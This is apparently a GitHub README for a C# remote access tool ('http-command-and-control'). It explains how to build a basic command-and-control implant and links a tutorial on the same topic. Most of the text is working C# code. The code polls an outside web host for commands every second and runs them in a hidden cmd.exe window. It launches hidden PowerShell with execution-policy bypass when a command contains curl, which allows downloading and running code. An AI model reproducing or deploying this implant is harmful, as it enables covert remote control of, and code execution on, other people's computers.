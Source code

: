 # http-command-and-control Remote Access Tool (RAT) using c# 
<h4>NOTE: To undersatnd full command and control RAT from scratch <a href="https://osamaellahi.medium.com/create-your-own-basic-command-and-control-rat-framework-with-more-effective-results-e298249cbad5" >click here</a></h4>. 
<b>Let's understand it.</b><br>
<b>This will get the command from online web server.
</b><br>
  
                          new WebClient().DownloadString("https://ustaad-mailer.000webhostapp.com/go.php");<br>
<br><br><br>
<b>Run command in device.</b>
  
                            Process cmd = new Process();<br>
                            cmd.StartInfo.FileName = "cmd.exe";<br>
                            cmd.StartInfo.RedirectStandardInput = true;<br>
                            cmd.StartInfo.RedirectStandardOutput = true;<br>
                            cmd.StartInfo.CreateNoWindow = true;<br>
                            cmd.StartInfo.UseShellExecute = false;<br>
                            cmd.StartInfo.Verb = "runas";<br>
                            cmd.Start();<br>
                            cmd.StandardInput.WriteLine(json);<br>
                            <br><br><br>
  
<b>Lets wait for 1 second</b><br>
                          Thread.Sleep(1000);<br>
                            
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>

  
      while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://ustaad-mailer.000webhostapp.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }
